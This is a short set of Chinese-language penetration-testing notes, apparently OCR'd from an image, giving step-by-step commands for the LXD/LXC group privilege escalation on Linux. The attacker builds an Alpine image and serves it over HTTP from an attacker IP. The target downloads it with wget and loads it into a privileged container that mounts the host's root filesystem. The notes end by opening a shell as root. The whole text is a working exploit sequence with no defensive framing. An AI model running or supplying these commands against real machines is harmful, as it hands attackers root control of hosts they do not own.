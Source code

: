 	查看文件是否存在
	>which lxd & >which lxc
	攻击机
	>git clone https://github.com/saghul/lxd-alpine-builder.git
	>cd lxd-alpine-builder
	>./build-alpine
	搞个web服务提供下载>python -m SimpleHTTPServer
	靶机下载
	>wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
	>lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
	>lxc image list
	>lxc init myimage ignite -c security.privileged=true
	>lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
	>lxc start ignite
	>lxc exec ignite /bin/sh
	>id